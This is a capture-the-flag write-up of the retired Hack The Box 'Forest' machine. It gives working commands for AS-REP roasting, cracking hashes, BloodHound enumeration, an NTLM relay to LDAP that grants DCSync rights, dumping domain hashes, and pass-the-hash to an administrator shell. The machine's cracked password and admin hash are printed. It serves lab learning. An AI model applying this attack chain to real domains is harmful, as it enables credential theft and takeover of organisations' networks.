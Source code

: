 ```yaml
---
layout: default
---
```

## Forest
###### Retired March 2020
![](https://www.hackthebox.eu/storage/avatars/7dedecb452597150647e73c2dd6c24c7.png)

This is likely the most involved "Easy" Windows machine I've done so far. A sample list:
+ Kerberoasting
+ Bloodhounding
+ NTLM Relay
+ DCSync
+ Pass the Hash

Let's get started. As usual, nmap first

```bash
nmap -T4 -p- -A -oN nmap.results forest.htb
```

![](https://yaboygmoney.github.io/htb/images/forest/nmap.png)

Lots going on here. Notably SMB (445), Kerberos (88), LDAP/S (389/636), and WinRM (5985). I launch enum4linux to start pulling back information

```bash
enum4linux -a forest.htb
```

I was given a lot of information from this. First, we can see that the domain name is "HTB".

![](https://yaboygmoney.github.io/htb/images/forest/domainName.png)

In addition to that, I get a list of usernames (ones of particular interest are highlighted).

![](https://yaboygmoney.github.io/htb/images/forest/userList.png)

With the given usernames discovered, I put them into a wordlist by copying the output above into users.txt and then running

```bash
cat users.txt | awk -F ":" '{print $5}' | awk -F " " '{print $1}' > userlist.txt
```

The result is a cleaned up list

![](https://yaboygmoney.github.io/htb/images/forest/userlist2.png)

Then I started to try and ASREPRoast my userlist. [This article](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/) has been really beneficial in learning how Kerberos actually works and how to get it to help my activities. The syntax is as follows:

```bash
./GetNPUsers.py [The Domain Name]/ -usersfile [filename of your userlist] -no-pass -dc-ip [the IP address of the DC]
```

So for this situation, the command is

```bash
./GetNPUsers.py HTB/ -usersfile userlist.txt -no-pass -dc-ip forest.htb
```

![](https://yaboygmoney.github.io/htb/images/forest/roasted.png)

It was a bunch of nothing until the very last user: svc-alfresco.

Because Kerberos pre-authentication was disabled for this account, we are able to send an AS_REQ (request) for a ticket granting ticket on behalf of this user to the Key Distribution Center (the DC) and get the AS_REP (response) that has enough encrypted data for hashcat to get us the password.

I took the hash kicked out from kerberoasting and ran it through hashcat against the rockyou wordlist

```powershell
hashcat.exe -a -0 -m 18200 hash.txt rockyou.txt -O -o heresthepw.txt
type heresthepw.txt
```

![](https://yaboygmoney.github.io/htb/images/forest/hashcat.png)

![](https://yaboygmoney.github.io/htb/images/forest/cracked.png)

With a username and password in hand, I spun up [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and logged in

```bash
evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```

User flag was hanging out on svc-alfresco's desktop

![](https://yaboygmoney.github.io/htb/images/forest/user.png)

Now it's time to find our way to administrator. The quickest way to do that in an AD environment is to unleash the hound. I downloaded the [SharpHound.ps1 ingestor](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1) to my local machine and then utilized Evil-WinRM's upload feature to get it onto the machine.

```powershell
upload SharpHound.ps1
Import-Module ./SharpHound.ps1
Invoke-Bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```

A few seconds later I had a zip file containing information about the domain.

![](https://yaboygmoney.github.io/htb/images/forest/hounded.png)

Then just pull back the zip with Evil-WinRM's download utility

```powershell
download 20200320080006_BloodHound.zip
```

Now I need to get Bloodhound ready to ingest this data. Step 1 of that is to spin up neo4j. Step 2 is to spin up bloodhound's UI.

```bash
neo4j console
bloodhound
```

Then it's as easy as dragging and dropping your zip file into the bloodhound interface. After a few seconds, Bloodhound is ready to show us the way. I typically click on "Queries" and then select "Find Shortest Path to Domain Admins". The result is something like

![](https://yaboygmoney.github.io/htb/images/forest/path.png)

The path shows that from my current svc-alfresco account, I can use my membership of the group "Service Accounts". Every member of "Service Accounts" inherits permission of the "Privileged IT Accounts" group. Every member of the "Privileged IT Accounts Group" is also a member of "Account Operators". "Account Operators" enjoy all of the permissions associated with "Exchange Windows Permissions", which is essentially [all permissions](https://duo.com/decipher/microsoft-exchange-users-get-admin-rights-in-privilege-escalation-attack). 

> The Exchange Windows Permissions group has WriteDacl access on the Domain object in Active Directory, which means any member of the group can modify the domain privileges, such as the ability to perform DCSync, or synchronization operations by Domain Controllers. When authentication is relayed to LDAP, objects in the directory can be modified to grant higher levels of access, such as performing DCSync to replicate users’ hashed passwords in Active Directory. An attacker with those hashed passwords can impersonate any users on the network and authenticate to any service using NTLM or Kerberos authentication.

Spoiler alert: that's exactly what I'm about to do.

In a shared environment, it's best to create a new user, because we are going to promote that user and we don't want to spoil the learning environment by just making svc-alfresco all powerful right off the bat.

```powershell
$pass = ConvertTo-SecureString "password" -AsPlainText -Force
New-ADUser ybgm -AccountPassword $pass -Enabled $True
```

I'm also going to use svc-alfresco's permissions to add my new user to the "Exchange Windows Permissions" group.

```powershell
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members ybgm
```

I also need to run [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to relay the credentials and escalate my user to be in a position to fire off a DCSync.

```bash
./ntlmrelayx.py -t ldap://forest.htb --escalate-user ybgm
```

![](https://yaboygmoney.github.io/htb/images/forest/server.png)

This command spins up an HTTP server. Once I navigate to my localhost, the credentials will be requested and then relayed via LDAP to the DC.

![](https://yaboygmoney.github.io/htb/images/forest/relay.png)

Back on the terminal, we can see that the credentials are relayed via LDAP. Because I added my user 'ybgm' to the Exhange Windows Permissions group, the user has "Modifying domain ACL skills". By leveraging this, my user is given the replicate changes ability needed to perform a DCSync.

![](https://yaboygmoney.github.io/htb/images/forest/worked.png)

Now I can run [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to perform a DCSync and pull back hashes.

```bash
./secretsdump.py htb.local/ybgm:password@forest.htb -just-dc
```

![](https://yaboygmoney.github.io/htb/images/forest/secretsdump.png)

With the admin hash, I can use [PSExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) to get an administrative shell on the Domain Controller.

```bash
./psexec.py htb.local/administrator@forest.htb 'powershell.exe' -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

![](https://yaboygmoney.github.io/htb/images/forest/root.png)

I want to end with a shoutout to the user [SmoZy](https://www.hackthebox.eu/profile/134223) who helped me get past a syntax hurdle I had with Bloodhound that allowed me to push forward. The HTB community is awesome and be sure to help teach when you can!

#### Keep trying.

